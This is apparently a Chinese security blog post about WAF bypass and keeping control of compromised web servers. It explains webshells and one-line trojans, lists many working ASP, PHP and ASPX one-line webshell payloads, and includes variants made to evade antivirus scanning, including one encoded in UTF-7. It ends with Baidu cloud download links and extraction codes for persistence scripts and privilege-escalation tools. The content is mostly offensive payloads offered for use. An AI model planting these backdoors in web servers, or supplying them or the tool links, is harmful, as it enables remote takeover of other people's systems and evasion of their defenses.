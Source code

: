 # 原创
：  (48.1)【WAF绕过-权限控制】webshell、小马、权限脚本、权限工具

# (48.1)【WAF绕过-权限控制】webshell、小马、权限脚本、权限工具

**目录**

[一、webshell（大马）](#%E4%B8%80%E3%80%81webshell%EF%BC%88%E5%A4%A7%E9%A9%AC%EF%BC%89)

[1.1、简介：](#1.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[1.2、缺点：](#1.2%E3%80%81%E7%BC%BA%E7%82%B9%EF%BC%9A)

[二、一句话木马（小马）](#%E4%BA%8C%E3%80%81%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%EF%BC%88%E5%B0%8F%E9%A9%AC%EF%BC%89)

[2.1、简介：](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[2.2、示例：（来自百度）](#2.2%E3%80%81%E7%A4%BA%E4%BE%8B%EF%BC%9A%EF%BC%88%E6%9D%A5%E8%87%AA%E7%99%BE%E5%BA%A6%EF%BC%89)

[三、权限控制脚本下载：](#%E4%B8%89%E3%80%81%E6%9D%83%E9%99%90%E6%8E%A7%E5%88%B6%E8%84%9A%E6%9C%AC%E4%B8%8B%E8%BD%BD%EF%BC%9A)

[3.1、下载：](#3.1%E3%80%81%E4%B8%8B%E8%BD%BD%EF%BC%9A)

[四、提权工具](#%E5%9B%9B%E3%80%81%E6%8F%90%E6%9D%83%E5%B7%A5%E5%85%B7)

[4.1、下载：](#4.1%E3%80%81%E4%B8%8B%E8%BD%BD%EF%BC%9A)

---


## 一、webshell（大马）

> 
<h3>1.1、简介：</h3>
是以 asp、aspx、php、jsp 、cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。
<hr/>
渗透进一个网站后，通常会将asp、aspx、php、jsp后门文件与网站web服务器目录下正常的网页文件混在一起
再使用浏览器来访问该后门文件了，得到一个命令执行环境，以达到控制网站服务器的目的


> 
<h3>1.2、缺点：</h3>
现在各种杀毒软件和防火墙软件都对“大马”有了甄别能力，如果被渗透的web服务器中安装了防御软件，就很难放入大马


---


---


## 二、一句话木马（小马）

> 
<h3>2.1、简介：</h3>
一句话木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。
通过向服务端提交一句简短的代码来达到向服务器插入木马并最终获得webshell的方法。
<hr/>
对于不同的语言有不同的构造方法，基本构造是首先出现的是脚本开始的标记，后边跟着的 eval 或者是 execute 是核心部分，就是获取并执行后边得到的内容，而后边得到的内容，是 request 或者是 $_POST 获取的值。如果我们通过客户端向服务器发送，那么就会让服务器执行我们发送的脚本，挂马就实现了


> 
<h3>2.2、示例：（来自百度）</h3>
**常用一句话木马**
**asp一句话木马：**
&lt;%execute(request("value"))%&gt;

<hr/>
**php一句话木马：**
&lt;?php @eval($_POST[value]);?&gt;

<hr/>
**aspx一句话木马：**
&lt;%@ Page Language="Jscript"%&gt;
&lt;%eval(Request.Item["value"])%&gt;
<hr/>
**其他一句话木马：**
&lt;%eval request("value")%&gt;
&lt;%execute request("value")%&gt;
&lt;%execute(request("value"))%&gt;
&lt;%If Request("value")&lt;&gt;"" Then Execute(Request("value"))%&gt;
&lt;%if request ("value")&lt;&gt;""then session("value")=request("value"):end if:if session("value")&lt;&gt;"" then execute session("value")%&gt;
&lt;SCRIPT language=VBScript runat="server"&gt;execute request("value")&lt;/SCRIPT&gt;
&lt;%@ Page Language="Jscript"%&gt;
&lt;%eval(Request.Item["value"],"unsafe");%&gt;
<hr/>
**可以躲过雷客图的一句话木马：**
&lt;%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.ExecuteStatement("ev"&amp;"al(request(""value""))")
%&gt;
<hr/>
**不用'&lt;,&gt;'的asp一句话木马：**
&lt;script language=VBScript runat=server&gt;execute request("value")&lt;/script&gt;
<hr/>
**不用双引号的一句话木马：**
&lt;%eval request(chr(35))%&gt;
<hr/>
**UTF-7编码加密:**
&lt;%@ codepage=65000%&gt;&lt;% response.Charset=”936″%&gt;&lt;%e+j-x+j-e+j-c+j-u+j-t+j-e+j-(+j-r+j-e+j-q+j-u+j-e+j-s+j-t+j-(+j-+ACI-#+ACI)+j-)+j-%&gt;


---


---


---


---


---


## 三、权限控制脚本下载：

> 
 <img alt="" height="610" src="https://img-blog.csdnimg.cn/bb35c8fa7f5c4c0381a53f92b34daf5c.png" width="870"/>

<h3>3.1、下载：</h3>
链接：https://pan.baidu.com/s/10rDy4dUdqcz0vENIeAWUkw?pwd=rpjx <br/> 提取码：rpjx



---


---


## 四、提权工具

> 
 <img alt="" height="581" src="https://img-blog.csdnimg.cn/2cb40b8b220c460db20aedc2b1da958b.png" width="821"/>
<h3>4.1、下载：</h3>
 链接：https://pan.baidu.com/s/1RGgZ3CeByK9adrUYysLPQg?pwd=r6rw <br/> 提取码：r6rw

